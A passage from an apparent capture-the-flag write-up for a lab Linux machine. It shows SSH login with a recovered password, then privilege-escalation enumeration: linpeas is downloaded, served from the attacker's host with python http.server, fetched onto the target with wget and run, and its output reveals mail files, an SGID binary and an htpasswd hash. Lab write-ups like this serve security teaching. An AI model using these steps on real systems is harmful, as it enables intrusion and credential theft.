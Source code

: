 - We can now ssh as bean using the password `014mrbeanrules!#P`

![ssh as been](../.res/2023-01-04-14-15-56.png)  

- We can grab the user flag

## Privesc

- Sudo -l does not give anything
- Let's see uname -a and take linpeas `Linux awkward 5.15.0-52-generic #58-Ubuntu SMP Thu Oct 13 08:03:55 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux`
- `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64`
- `python3 -m http.server 80`
And in our target `wget http://10.10.14.10/linpeas_linux_amd64`
- `chmod +x linpeas_linux_amd64`
- `./linpeas_linux_amd64`
- Things worth investigating

```bash
    18090     68 -rw-------   1 christine mail        61916 Jan  5 06:20 /var/mail/christine                         
    18089    100 -rw-------   1 root      mail        98220 Jan  5 06:26 /var/mail/root
    18090     68 -rw-------   1 christine mail        61916 Jan  5 06:20 /var/spool/mail/christine
    18089    100 -rw-------   1 root      mail        98220 Jan  5 06:26 /var/spool/mail/root
╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/home/bean/.cache/tracker3/files/meta.db-shm
/home/bean/.cache/tracker3/files/meta.db-wal
/home/bean/.cache/tracker3/files/http%3A%2F%2Ftracker.api.gnome.org%2Fontology%2Fv3%2Ftracker%23FileSystem.db-wal
/home/bean/.cache/tracker3/files/last-crawl.txt
/home/bean/.cache/tracker3/files/http%3A%2F%2Ftracker.api.gnome.org%2Fontology%2Fv3%2Ftracker%23FileSystem.db-shm
╔══════════╣ SGID
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid 
-rwxr-sr-x 1 root tty 23K Feb 21  2022 /usr/bin/write.ul (Unknown SGID binary)
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 root root 44 Sep 15 22:34 /etc/nginx/conf.d/.htpasswd                                                   
admin:$apr1$lfvrwhqi$hd49MbBX3WNluMezyjWls1
╔══════════╣ Checking sudo tokens
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens                               
ptrace protection is enabled (1)                                                                                     
gdb was found in PATH
```
